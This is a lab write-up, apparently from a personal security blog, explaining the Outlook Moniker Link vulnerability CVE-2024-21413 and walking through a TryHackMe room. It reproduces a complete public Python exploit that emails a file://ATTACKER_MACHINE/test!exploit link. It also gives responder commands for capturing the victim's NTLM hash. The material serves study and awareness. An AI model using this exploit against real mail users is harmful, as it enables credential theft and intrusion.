```yaml
---
categories: [CVE-hunt]
tags: [Microsoft RCE]     # TAG names should always be lowercase
author: Darshan
description: The Outlook Moniker Link CVE-2024-21413 vulnerability allows attackers to exploit Remote Code Execution (RCE) via specially crafted email links.
image:
    path: /assets/img/Banners/moniker-link.png
pin: false
---
```


On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link).

## Scoring of the vulnerability:

| **CVSS** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

## Explanation:

Outlook can render emails as HTML. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).

but there is Protected view in outlook which opens contents in only read-only mode blocking such as macros.

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (**`<a href="file://ATTACKER_IP/test>Click me</a>`**). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the **`!`** special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 

For example: 

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

This vulnerability uses the Component Object Model (COM) technology in Windows. COM is a system for enabling software components to communicate, which helps applications like Outlook interact with other Microsoft programs, such as Word. By exploiting this, an attacker can create a special link that, when clicked, automatically opens the file in Word without Protected View. This method allows attackers to run commands, possibly even malicious code, on the victim's machine without obvious warning signs.

## Exploitation:

For the exploitation we’ll use the TryHackMe’s this lab: https://tryhackme.com/r/room/monikerlink

In this lab we have given a windows machine and the vulnerable Outlook version.

Open that Outlook and we can see our Target: `victim@monikerlink.thm`

![image.png](/assets/img/CVE/image.png)

Now to exploit this vulnerability we have to create a crafted email with moniker link. For that we can use the exploit available on github: 

https://github.com/CMNatic/CVE-2024-21413

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Few Changes has to be made for this exploit to work:

- Change `ATTACKER_MACHINE` with the IP of attacker’s machine.
- Change `MAILSERVER` with the IP of the Victim’s machine.

Other than this we require a SMTP/SMB server to ensure the email sent bypasses common email validation checks such as SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail), and DMARC (Domain-based Message Authentication, Reporting, and Conformance).

For this we’ll use the `responder` command. It acts as a rogue server to intercept network authentication requests by responding to services.

Command:

```python
responder -I <interface_name (such as tun0,ens5)>
```

After setting us server we’ll run this code:

![image.png](/assets/img/CVE/image%201.png)

Check the Outlook’s mail box

![image.png](/assets/img/CVE/image%202.png)

Click that button and we get the NTLM hash of the victim.

![Screenshot 2024-11-01 235959.png](/assets/img/CVE/image%203.png)

This is how the vulnerability is exploited and this can be even worse. Attacker can literally get the Remote Code Execution on the victim’s machine.